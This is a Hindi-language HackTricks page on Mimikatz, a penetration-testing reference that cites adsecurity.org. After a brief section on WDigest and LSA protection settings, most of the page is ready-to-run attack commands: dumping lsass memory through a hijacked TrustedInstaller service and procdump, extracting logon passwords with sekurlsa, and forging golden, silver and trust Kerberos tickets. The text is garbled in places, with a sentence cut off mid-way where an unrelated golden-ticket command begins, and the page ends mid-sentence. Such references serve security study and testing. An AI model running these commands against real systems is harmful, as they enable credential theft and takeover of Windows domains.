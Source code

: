 # Mimikatz

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को हैकट्रिक्स में विज्ञापित** देखना चाहते हैं? या क्या आप **PEASS के नवीनतम संस्करण या हैकट्रिक्स को पीडीएफ में डाउनलोड** करना चाहते हैं? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**द पीएस फैमिली**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**एनएफटी**](https://opensea.io/collection/the-peass-family) संग्रह देखें
* [**आधिकारिक पीएस और हैकट्रिक्स स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** **ट्विटर** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स रेपो** (https://github.com/carlospolop/hacktricks) **और** [**hacktricks-cloud रेपो**](https://github.com/carlospolop/hacktricks-cloud) **को पीआर जमा करके**।

</details>

**यह पृष्ठ [adsecurity.org](https://adsecurity.org/?page\_id=1821) से आधारित है**। अधिक जानकारी के लिए मूल देखें!

## मेमोरी में एलएम और साफ-टेक्स्ट

Windows 8.1 और Windows Server 2012 R2 से आगे, क्रेडेंशियल चोरी से बचाव के लिए महत्वपूर्ण उपाय लागू किए गए हैं:

- **एलएम हैश और साफ-टेक्स्ट पासवर्ड** को सुरक्षित बनाने के लिए मेमोरी में नहीं स्टोर किया जाता है। एक विशिष्ट रजिस्ट्री सेटिंग, _HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest "UseLogonCredential"_ को एक DWORD मान `0` के साथ कॉन्फ़िगर करना होगा ताकि डाइजेस्ट प्रमाणीकरण को अक्षम करें, यह सुनिश्चित करता है कि "साफ-टेक्स्ट" पासवर्ड LSASS में कैश नहीं होते हैं।

- **LSA संरक्षा** को प्रावधान किया गया है ताकि स्थानीय सुरक्षा प्राधिकरण (LSA) प्रक्रिया को अनधिकृत मेमोरी पठन और कोड प्रवेश से बचाया जा सके। इसे LSASS को संरक्षित प्रक्रिया के रूप में चिह्नित करके प्राप्त किया जाता है। LSA संरक्षा को सक्रिय करने के लिए:
1. _HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa_ पर रजिस्ट्री को संशोधित करके `RunAsPPL` को `dword:00000001` पर सेट करना।
2. प्रबंधित उपकरणों पर यह रजिस्ट्री परिवर्तन लागू करने के लिए एक समूह नीति वस्तु (GPO) का कार्यान्वयन करना।

इन सुरक्षाओं के बावजूद, Mimikatz जैसे उपकरण LSA संरक्षा को नष्ट कर सकते हैं विशेष ड्राइवर्स का उपयोग करके, हालांकि ऐसे कार्रवाई को इवेंट लॉग में लिखा जाने की संभावना है।

### SeDebugPrivilege हटाने का विरोध करना

प्रशासकों के पास सामान्यत: SeDebugPrivilege होता है, जो उन्हें कार्यक्रमों को डीबग करने की अनुमति देता है। इस विशेषाधिकार को अनधिकृत मेमोरी डंप्स को रोकने के लिए प्रतिबंधित किया जा सकता है, जो हमलावारों द्वारा क्रेडेंशियल्स को मेमोरी से निकालने के लिए एक सामान्य तकनीक है। हालांकि, इस विशेषाधिकार को हटाने के बावजूद, TrustedInstaller खाता एक कस्टमाइज़्ड सेवा कॉन्फ़िगरेशन का उपयोग करके मेमोरी डंप कर सकता है:
```bash
sc config TrustedInstaller binPath= "C:\\Users\\Public\\procdump64.exe -accepteula -ma lsass.exe C:\\Users\\Public\\lsass.dmp"
sc start TrustedInstaller
```
यह `lsass.exe` मेमोरी को एक फ़ाइल में डंप करने की अनुमति देता है, जिसे फिर एक अन्य सिस्टम पर विश्लेषित किया जा सकता है ताकि क्रेडेंशियल्स निकाले जा सकें:
```
# privilege::debug
# sekurlsa::minidump lsass.dmp
# sekurlsa::logonpasswords
```
## Mimikatz विकल्प

Mimikatz में इवेंट लॉग टैम्परिंग में दो मुख्य क्रियाएँ शामिल हैं: इवेंट लॉग्स को साफ करना और नए इवेंट्स का लॉगिंग रोकने के लिए इव
```bash
mimikatz "kerberos::golden /user:admin /domain:example.com /sid:S-1-5-21-123456789-123456789-123456789 /krbtgt:ntlmhash /ptt" exit
```
### सिल्वर टिकट निर्माण

सिल्वर टिकट विशिष्ट सेवाओं तक पहुंच प्रदान करता है। मुख्य कमांड और पैरामीटर:

- कमांड: गोल्डन टिकट के समान है लेकिन विशिष्ट सेवाओं को लक्ष्य बनाता है।
- पैरामीटर:
- `/service`: लक्ष्य बनाने के लिए सेवा (जैसे, cifs, http)।
- गोल्डन टिकट के समान अन्य पैरामीटर।

उदाहरण:
```bash
mimikatz "kerberos::golden /user:user /domain:example.com /sid:S-1-5-21-123456789-123456789-123456789 /target:service.example.com /service:cifs /rc4:ntlmhash /ptt" exit
```
### विश्वास टिकट निर्माण

विश्वास टिकट को विश्वास संबंधों का उपयोग करके डोमेन के अधिकारों तक पहुंचने के लिए उपयोग किया जाता है। मुख्य कमांड और पैरामीटर:

- कमांड: गोल्डन टिकट के लिए समान, लेकिन विश्वास संबंधों के लिए।
- पैरामीटर:
- `/target`: लक्षित डोमेन का FQDN।
- `/rc4`: विश्वास खाते के NTLM हैश।

उदाहरण:
```bash
mimikatz "kerberos::golden /domain:child.example.com /sid:S-1-5-21-123456789-123456789-123456789 /sids:S-1-5-21-987654321-987654321-987654321-519 /rc4:ntlmhash /user:admin /service:krbtgt /target:parent.example.com /ptt" exit
```
### अतिरिक्त केरबेरोस कमांड

- **टिकट सूचीकरण**:
- कमांड: `kerberos::list`
- वर्तमान उपयोगकर्ता सत्र के लिए सभी केरबेरोस टिकट सूचीबद्ध करता है।

- **कैश पास**:
- कमांड: `kerberos::ptc`
- कैश फ़ाइल से केरबेरोस टिकट इंजेक्ट करता है।
- उदाहरण: `mimikatz "kerberos::ptc /ticket:ticket.kirbi" exit`

- **टिकट पास**:
- कमांड: `kerberos::ptt`
- दूसरे सत्र में केरबेरोस टिकट का उपयोग करने की अनुमति देता है।
- उदाहरण: `mimikatz "kerberos::ptt /ticket:ticket.kirbi" exit`

- **टिकट सफाई**:
- कमांड: `kerberos::purge`
- सत्र से सभी केरबेरोस टिकट को साफ करता है।
- संघर्ष से बचने के लिए टिकट मानिपुलेशन कमांड का उपयोग करने से पहले उपयोगी।


### सक्रिय निर्देशिका दुरुपयोग

- **DCShadow**: एक मशीन को अस्थायी रूप से एक डीसी के रूप में काम करने के लिए एडी ऑब्ज
